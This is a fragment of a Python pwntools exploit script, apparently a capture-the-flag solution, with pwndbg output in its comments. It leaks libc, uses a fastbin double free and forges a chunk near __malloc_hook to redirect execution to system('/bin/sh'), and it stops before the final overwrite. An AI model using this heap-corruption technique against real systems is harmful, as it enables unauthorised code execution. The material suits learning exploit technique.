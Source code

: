 ```python
puts = io.recvline() # 0x7a03db46faf0
libc.address = int(puts, 16) - libc.sym.puts
log.success(f"libc base @ {hex(libc.address)}")

io.recvuntil(b'username:')

io.sendline(p64(0xdeadbeef) + p64(0x31))

"""
pwndbg> dq &user
0000000000602010     00000000deadbeef 0000000000000031
0000000000602020     0058585858585858 0000000000000000
"""

"""
1) malloc 0/7
2) free
3) target
4) quit
> 
"""

idx = 0
A = malloc(0x68, b'A'*0x28) # 0
B = malloc(0x68, b'B'*0x28) # 1

free(A) # free chunk A
free(B) # Intermediate free to bypass double free check
free(A) # double free chunk A

"""
fastbins
0x30: 0x603000 —▸ 0x603030 ◂— 0x603000
        A      ->   B      ->  A
"""

malloc_hook_addr = libc.symbols['__malloc_hook']
system_addr = libc.symbols['system']
binsh_addr = next(libc.search(b'/bin/sh\x00'))

log.info(f"__malloc_hook: {hex(malloc_hook_addr)}")
log.info(f"system: {hex(system_addr)}")
log.info(f"/bin/sh: {hex(binsh_addr)}")

fake_malloc_addr = malloc_hook_addr - 35
malloc(0x68, p64(fake_malloc_addr)) # 2 -> 0x603000


# Now we need to find the offset to fill after which we can write our 0xdeadbeef address
# We will start filling from our fake chunk till we overwrite __malloc_hook

"""
pwndbg> dq 0x7ffff7bb4b2d
00007ffff7bb4b2d     fff7bb0ee0000000 000000000000007f
00007ffff7bb4b3d     fff7883a10000000 fff7883ed000007f
00007ffff7bb4b4d     000000000000007f 0000000000000000
00007ffff7bb4b5d     0000000000000000 0000000001000000
pwndbg> p &__malloc_hook
$1 = (void *(**)(size_t, const void *)) 0x7ffff7bb4b50 <__malloc_hook>
pwndbg> p/x 0x7ffff7bb4b50-0x7ffff7bb4b3d 
$2 = 0x13

"""
```